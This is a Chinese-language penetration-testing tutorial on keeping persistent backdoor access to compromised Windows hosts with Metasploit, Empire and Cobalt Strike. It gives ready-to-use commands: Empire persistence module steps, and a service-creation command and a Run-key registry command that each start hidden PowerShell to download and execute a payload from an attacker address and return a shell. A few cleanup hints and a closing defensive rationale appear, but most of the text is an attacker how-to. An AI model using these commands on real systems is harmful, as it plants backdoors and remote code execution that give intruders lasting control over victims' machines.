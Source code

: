 ### 0x00 前言

在渗透测试中，有三个非常经典的渗透测试框架----Metasploit、Empire、Cobalt Strike。

那么，通过漏洞获取到目标主机权限后，如何利用框架获得持久性权限呢？

### 0x01 MSF权限维持

使用MSF维持权限的前提是先获得一个*meterpreter*  shell，通过*meterpreter* shell获取持久性shell的方法有两种：

**Persistence模块**

通过启动项启动(persistence)的方式，在目标机器上以反弹回连。

![](./image/privilege-3-1.png)

~~~
-U：设置后门在用户登录后自启动。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。推荐使用该参数；
-X：设置后门在系统启动后自启动。该方式会在HKLM\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。由于权限问题，会导致添加失败，后门将无法启动。
-S：作为服务自动启动代理程序（具有SYSTEM权限）
~~~

生成的相关文件位置 ：

```
# 后门文件位置：
C:\Windows\Temp
C:\Users\Administrator\AppData\Local\Temp
# 注册表位置：
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
HKLM\Software\Microsoft\Windows\CurrentVersion\Run\
```

![](./image/privilege-3-2.png)

**Metsvc 模块**

通过服务(metsvc)启动的方式，在目标机器启动后自启动一个服务，等待连接。

![](./image/privilege-3-3.png)

后门排查：目标主机上开启了一个Meterpreter服务。

![](./image/privilege-3-4.png)

### 0x02 Empire 权限维持

Empire的persistence模块提供了18种权限维持的方法，大致可以分为四类，即

![](./image/privilege-3-17.png)


| elevated（管理权限） | misc（杂项） |  powerbreach  | userland（用户权限） |
| :-------                | :---------           | :---------                    | :---------   |
| registry*               | add_netuser      |   deaduser                | backdoor_lnk |
| schtasks*  |   add_sid_history*    |   eventlog*    | registry |
| wmi*   |    debugger*      | resolver  | schtasks |
| wmi_updater* |   disable_machine_acct_change*   |    |  |
||   get_ssps     |    |  |
||   install_ssp*     |    |  |
||   memssp*        |    |  |
||   skeleton_key*        |    |  |



**注册表**

~~~
(Empire: agents) > agents
(Empire: agents) > interact URL3FZBV
(Empire: URL3FZBV) > usemodule persistence/elevated/registry*
(Empire: powershell/persistence/elevated/registry) > set Listener test
(Empire: powershell/persistence/elevated/registry) > execute
~~~

![](./image/privilege-3-5.png)

因为是开机启动，所以会弹个黑框，之后还会弹出注册表添加的powershell启动项的框，在注册表位置如下：

![](./image/privilege-3-6.png)

**计划任务**

~~~
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/schtasks*
(Empire: powershell/persistence/elevated/schtasks) > set Listener test
(Empire: powershell/persistence/elevated/schtasks) > set DailyTime 22:50
(Empire: powershell/persistence/elevated/schtasks) > execute
~~~

![](./image/privilege-3-7.png)

在任务计划程序库可以看到-任务为Updater-启动程序如下可以到为powershell

![](./image/privilege-3-8.png)

**wmi**

~~~
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/wmi
(Empire: powershell/persistence/elevated/wmi) > set Listener test
(Empire: powershell/persistence/elevated/wmi) > run
~~~

![](./image/privilege-3-9.png)

如何清除后门，最简单的方法就是使用Autoruns，选择WMI选项卡，右键就可以删除恶意后门。

![](./image/privilege-3-10.png)

### 0x03 Cobalt Strike权限维持

通过Cobalt Strike拿到一个shell，留后门的方法有很多，下面介绍两种比较常见的无文件、自启动后门。

从Cobalt Strike菜单栏，Attacks--Web Drive-by--Scaripted Web Delivery，生成powershell后门。

![](./image/privilege-3-11.png)

根据需要可以自己选择，填写所需参数默认端口是80（需要注意的就是不要使用重复端口），Type选择powershell。

![](./image/privilege-3-12.png)

点击Launch后，返回powershell远程下载执行命令。

![](./image/privilege-3-13.png)

**服务自启动后门**

~~~
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\""
sc description  Name "Just For Test"   //设置服务的描述字符串
sc config Name start= auto             //设置这个服务为自动启动 
net start Name                         //启动服务
~~~

重启服务器后，成功返回一个shell。

![](./image/privilege-3-14.png)

**注册表自启动**

在windows启动项注册表里面添加一个木马程序路径，如：

~~~
beacon>getsystem
beacon>shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" /f 
~~~

![](./image/privilege-3-15.png)

 账号注销后，重新登录，界面上会出现powershell快速闪过消失，成功返回shell。

![](./image/privilege-3-16.png)

注册表还有哪些键值可以设置为自启动：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

------

### 0x04 结束语

本文简单介绍了通过三大渗透框架进行权限维持的几种方法，了解攻击者常用的渗透框架及后门技术，有助于更好地去发现并解决服务器安全问题。


